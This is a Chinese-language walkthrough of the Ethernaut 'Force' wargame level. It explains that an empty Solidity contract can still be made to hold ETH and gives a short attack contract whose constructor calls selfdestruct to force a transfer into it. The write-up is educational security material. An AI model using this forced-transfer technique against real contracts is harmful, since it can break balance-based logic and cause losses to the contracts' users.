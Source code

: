 # Force
Force 對於不是非常熟悉solidity的同學來説是非常比較有難度的，這一關要求我們使目標合約的餘額大於0，我們先看代碼：

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
## 代码分析
代碼非常簡單，就是一個畫著可愛貓貓的備注，即一個空合約。正常情況下，如果我們想要讓一個合約的餘額增加我們首先會想到利用合約的`payable`函數或者是`fallback`函數來將ETH轉賬給合約地址。但是在現在這個情況，`Force`合約是一個空合約，并不能達成我們假設的那種的情況。這裏就需要利用一個叫做`selfdestruct`（自銷毀）的函數。

這裏是關於selfdestruct的官方文檔引用：
>The only way to remove code from the blockchain is when a contract at that address performs the `selfdestruct` operation. The remaining Ether stored at that address is sent to a designated target and then the storage and code is removed from the state. Removing the contract in theory sounds like a good idea, but it is potentially dangerous, as if someone sends Ether to removed contracts, the Ether is forever lost.

`selfdestruct`可以將被銷毀的合約的剩餘ETH轉賬給指定的地址，然後將合約的代碼和存儲從狀態中刪除。我們可以利用ETH轉賬的這個特性，强行將ETH轉賬給我們的`Force`合約，即可完成這一關。

## 攻击代碼

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract Attack {
  constructor (address payable _target) payable {
    selfdestruct(_target);
  }
}
```

## 攻击过程
1. 部署攻擊合約，`_target`為`Force`合約實例的地址，部署時記得需要傳入任意數量的的ETH
2. 完成任務
